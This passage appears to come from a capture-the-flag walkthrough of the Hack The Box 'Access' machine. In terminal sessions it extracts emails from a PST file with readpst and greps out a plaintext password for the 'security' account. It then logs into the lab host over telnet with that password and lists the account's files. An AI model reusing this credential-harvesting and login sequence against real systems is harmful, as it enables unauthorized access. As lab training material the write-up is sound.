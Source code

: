 ```bash
┌──(kali㉿kali)-[~/htb/Access]
└─$ ls               
'Access Control.pst'  'Access Control.zip'   auth_user.txt   backup.mdb
```

### Extracting emails from pst file
```bash
┌──(kali㉿kali)-[~/htb/Access]
└─$ readpst -r Access\ Control.pst 
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.
```

### Getting "security" account password from emails
```bash
┌──(kali㉿kali)-[~/htb/Access/Access Control]
└─$ cat mbox | grep pass
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
</o:shapelayout></xml><![endif]--></head><body lang=EN-US link="#0563C1" vlink="#954F72"><div class=WordSection1><p class=MsoNormal>Hi there,<o:p></o:p></p><p class=MsoNormal><o:p>&nbsp;</o:p></p><p class=MsoNormal>The password for the &#8220;security&#8221; account has been changed to 4Cc3ssC0ntr0ller.&nbsp; Please ensure this is passed on to your engineers.<o:p></o:p></p><p class=MsoNormal><o:p>&nbsp;</o:p></p><p class=MsoNormal>Regards,<o:p></o:p></p><p class=MsoNormal>John<o:p></o:p></p></div></body></html>
```

#### Credentials:
security: `4Cc3ssC0ntr0ller`

### TELNET - security account | user flag
```bash
┌──(kali㉿kali)-[~/htb/Access/Access Control]
└─$ telnet 10.10.10.98 23
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security         
password: 4Cc3ssC0ntr0ller

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>dir
 Volume in drive C has no label.
 Volume Serial Number is 8164-DB5F

 Directory of C:\Users\security

08/23/2018  10:52 PM    <DIR>          .
08/23/2018  10:52 PM    <DIR>          ..
08/24/2018  07:37 PM    <DIR>          .yawcam
08/21/2018  10:35 PM    <DIR>          Contacts
08/28/2018  06:51 AM    <DIR>          Desktop
08/21/2018  10:35 PM    <DIR>          Documents
08/21/2018  10:35 PM    <DIR>          Downloads
08/21/2018  10:35 PM    <DIR>          Favorites
08/21/2018  10:35 PM    <DIR>          Links
08/21/2018  10:35 PM    <DIR>          Music
08/21/2018  10:35 PM    <DIR>          Pictures
```